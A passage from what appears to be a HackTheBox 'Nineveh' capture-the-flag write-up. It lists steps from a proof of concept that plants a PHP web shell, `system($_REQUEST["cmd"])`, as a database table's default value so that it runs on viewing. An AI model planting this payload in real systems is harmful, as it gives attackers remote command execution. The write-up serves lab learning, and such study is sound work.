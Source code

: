 ```bash
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php
...
```

So according to the proof of concept, we have to do the following:

>   1.  Create a new database
>   2.  Create a new table in the database with a default value `<?php echo system($_REQUEST ["cmd"]); ?>`
>   3.  View the database to execute the code
>

![upload_php_code](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Nineveh/upload_php_code.png?raw=true)
